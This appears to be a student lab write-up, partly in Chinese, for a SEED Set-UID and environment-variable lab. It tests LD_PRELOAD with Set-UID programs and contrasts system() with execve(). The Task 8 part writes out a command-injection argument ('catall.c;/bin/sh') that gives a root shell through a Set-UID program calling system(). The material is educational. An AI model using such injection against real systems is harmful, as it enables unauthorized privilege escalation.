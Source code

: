 ## Make myprog a regular program, and run it as a normal user.

```
$ myprog 
LD_PRELOAD=./libmylib.so.1.0.1
I am not sleeping!
```

## Make myprog a Set-UID root program, and run it as a normal user.

```shell
[10/31/22]seed@VM:~/lab/Labsetup$ sudo chown root myprog 
[10/31/22]seed@VM:~/lab/Labsetup$ sudo chmod 4755 myprog
[10/31/22]seed@VM:~/lab/Labsetup$ ll myprog
-rwsr-xr-x 1 root seed 16856 Oct 31 12:06 myprog

[10/31/22]seed@VM:~/lab/Labsetup$ ./myprog 
[10/31/22]seed@VM:~/lab/Labsetup$ 
```

这里什么都没有打印

## Make myprog a Set-UID root program, export the LD PRELOAD environment variable again in the root account and run it

```
root@VM:/home/seed/lab/Labsetup# export LD_PRELOAD="/home/seed/lab/Labsetup/libmylib.so.1.0.1"
root@VM:/home/seed/lab/Labsetup# ./myprog
LD_PRELOAD=/home/seed/lab/Labsetup/libmylib.so.1.0.1
I am not sleeping!
```

在切换为root用户后，打印出了LD_PRELOAD环境变量，并且调用了我们设计的共享库的sleep函数

## Make myprog a Set-UID user1 program (i.e., the owner is user1, which is another user account),export the LD PRELOAD environment variable again in a different user’s account (not-root user) and run it.
和Make myprog a regular program, and run it as a normal user.结果相同

# Task 8: Invoking External Programs Using system() versus execve()

- system()会执行sh -c "a.out 1;/bin/sh"因此可以得到root权限的shell

- execve不可以

```
[10/31/22]seed@VM:~/lab/Labsetup$ ll a.out 
-rwsr-xr-x 1 root seed 16928 Oct 31 12:41 a.out
[10/31/22]seed@VM:~/lab/Labsetup$ a.out "catall.c;/bin/sh"
#

[10/31/22]seed@VM:~/lab/Labsetup$ a.out "catall.c;/bin/sh"
/bin/cat: 'catall.c;/bin/sh': No such file or directory
```
